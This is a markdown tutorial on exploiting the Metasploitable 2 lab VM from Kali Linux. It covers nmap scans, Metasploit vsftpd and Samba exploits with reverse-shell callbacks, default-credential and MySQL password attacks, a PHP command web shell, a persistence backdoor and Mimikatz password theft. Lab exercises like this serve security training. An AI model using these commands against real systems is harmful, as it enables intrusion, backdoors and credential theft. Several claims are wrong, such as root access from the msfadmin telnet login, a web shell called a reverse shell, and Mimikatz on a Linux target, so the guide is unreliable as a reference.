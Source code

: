 ## **Full Guide: Exploiting Vulnerabilities in Metasploitable 2 Using Kali Linux**
Metasploitable 2 is a **deliberately vulnerable** Linux machine used for **penetration testing** and **ethical hacking**. This guide walks you through the **proper process** of exploiting it using **Kali Linux** and **Metasploit**.

---

## **📌 Step 1: Set Up Your Lab**
1. **Install & Run Metasploitable 2**  
   - Download it from [Rapid7](https://sourceforge.net/projects/metasploitable/)
   - Run it in **VMware** or **VirtualBox**
   - Check its IP using:
     ```bash
     ifconfig
     ```
2. **Ensure Your Kali Linux Is Ready**  
   - Run Kali Linux in another VM
   - Update Metasploit:
     ```bash
     msfupdate
     ```

---

## **📌 Step 2: Scan for Open Ports & Services**
### ✅ **Nmap Scan for Vulnerabilities**
```bash
nmap -sS -sV -O -A 192.168.1.100
```
- `-sS` → Stealth scan  
- `-sV` → Service version detection  
- `-O` → OS detection  
- `-A` → Aggressive scan  

### 🔍 **Common Vulnerabilities in Metasploitable**
| **Port** | **Service** | **Vulnerability** |
|----------|------------|-------------------|
| 21       | FTP        | Anonymous login |
| 22       | SSH        | Weak credentials |
| 23       | Telnet     | Default password |
| 25       | SMTP       | User enumeration |
| 80       | Apache     | PHPMyAdmin exploit |
| 139,445  | SMB        | Samba RCE |
| 3306     | MySQL      | Weak passwords |
| 5432     | PostgreSQL | Unauthenticated access |

---

## **📌 Step 3: Exploit Common Vulnerabilities**
### 🚀 **1. Exploit vsftpd 2.3.4 Backdoor (Port 21)**
**Vulnerable Service**: `vsftpd 2.3.4` (Backdoor Command Execution)

#### **Step 1: Check for Vulnerability**
```bash
nmap --script ftp-vuln* -p 21 192.168.1.100
```

#### **Step 2: Exploit Using Metasploit**
```bash
msfconsole
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.1.100
set PAYLOAD cmd/unix/interact
exploit
```
✅ **Root Shell Access!** Use:
```bash
whoami
```

---

### 🚀 **2. Exploit Samba (Port 139/445)**
**Vulnerable Service**: Samba **(Unrealistic permissions, allows Remote Code Execution)**

#### **Step 1: Check Samba Version**
```bash
smbclient -L //192.168.1.100
```

#### **Step 2: Exploit Using Metasploit**
```bash
msfconsole
search usermap_script
use exploit/multi/samba/usermap_script
set RHOSTS 192.168.1.100
set PAYLOAD cmd/unix/reverse
set LHOST 192.168.1.50  # Your Kali IP
set LPORT 4444
exploit
```
✅ **Root Shell Access!** Use:
```bash
id
```

---

### 🚀 **3. Exploit Telnet Default Credentials (Port 23)**
**Vulnerable Service**: Telnet **(Default password: `msfadmin:msfadmin`)**

#### **Step 1: Connect to Telnet**
```bash
telnet 192.168.1.100
```
When prompted:
- **Username:** `msfadmin`
- **Password:** `msfadmin`

✅ **Root Access!** Type:
```bash
whoami
```

---

### 🚀 **4. Exploit MySQL (Port 3306)**
**Vulnerable Service**: MySQL **(Weak Passwords)**

#### **Step 1: Test for Weak Credentials**
```bash
mysql -u root -h 192.168.1.100 -p
```
Try common passwords like:
- `root`
- `toor`
- `password`

#### **Step 2: Exploit Using Metasploit**
```bash
msfconsole
use auxiliary/scanner/mysql/mysql_login
set RHOSTS 192.168.1.100
set USERNAME root
set PASSWORD root
exploit
```
✅ **Database Access!** Dump user credentials:
```bash
show databases;
use mysql;
select * from user;
```

---

### 🚀 **5. Exploit PHPMyAdmin (Port 80)**
**Vulnerable Service**: PHPMyAdmin **(Remote Code Execution)**

#### **Step 1: Check for Web Exploits**
```bash
nikto -h 192.168.1.100
```

#### **Step 2: Access PHPMyAdmin**
- Open **`http://192.168.1.100/phpmyadmin/`**  
- Use default credentials:  
  - **Username:** `root`
  - **Password:** `root`

#### **Step 3: Run Reverse Shell**
Upload a PHP reverse shell:
```php
<?php
$cmd = $_GET['cmd'];
system($cmd);
?>
```
Save as `shell.php`, upload it, then execute:
```bash
http://192.168.1.100/phpmyadmin/shell.php?cmd=whoami
```

✅ **Root Access!**

---

## **📌 Step 4: Post-Exploitation**
Once inside, gain **persistence**.

### ✅ **Create a Backdoor**
```bash
meterpreter > run persistence -U -i 5 -p 4444 -r 192.168.1.50
```

### ✅ **Steal Passwords**
Use **Mimikatz** if the system supports it:
```bash
load mimikatz
mimikatz_command -f "privilege::debug sekurlsa::logonpasswords"
```
✅ **Scanned Metasploitable 2 for open ports**  
✅ **Exploited vulnerabilities using Metasploit**  
✅ **Gained shell access & performed post-exploitation**  
